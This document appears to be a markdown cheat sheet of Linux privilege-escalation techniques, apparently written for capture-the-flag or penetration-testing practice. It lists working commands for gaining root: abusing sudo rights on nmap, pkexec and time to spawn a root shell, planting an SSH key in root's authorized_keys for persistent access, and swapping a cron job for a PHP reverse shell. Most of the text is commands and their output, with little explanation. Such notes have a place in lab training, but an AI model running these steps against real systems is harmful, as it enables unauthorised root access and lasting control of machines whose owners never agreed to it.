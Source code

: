 ### Privilege Escalation

#### If you have found any passwords on the machine, try running as root
```
sudo su
```
#### Check which commands sudo can run
``` 
sudo -l

# If you get something like 
# User asterisk may run the following commands on this host:
#    (root) NOPASSWD: /sbin/shutdown
#    (root) NOPASSWD: /usr/bin/nmap
# Google the application you can run as root, eg. nmap privilege escalation
sudo nmap --interactive
nmap> !sh
```
```
# If you get something like
User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
# Try the following
tony@funbox3:~$ sudo /usr/bin/pkexec /bin/sh
$ whoami
root

# Can also do.. Just make sure the application is there with 'which time'
tony@funbox3:~$ sudo /usr/bin/time /bin/sh
$ whoami
root
``` 
#### Check which version/year of Linux for privesc exploits
```
uname -a
```

#### If you can modify files as root
#### Try to add ssh public key to root/.ssh/authorized_keys
```
# Generate ssh key pair
ssh-keygen -o

# Copy the public key
cat /root/.ssh/id_rsa.pub

# Paste it into your root/.ssh/authorized_keys file (create if necessary)
# Then try and access through ssh from attacking machine
ssh root@targetip
```

#### Check the crontab for cron jobs you can exploit
```
cat /etc/crontab
# If you locate a cron job with a php command, replace it with a php reverse shell
```
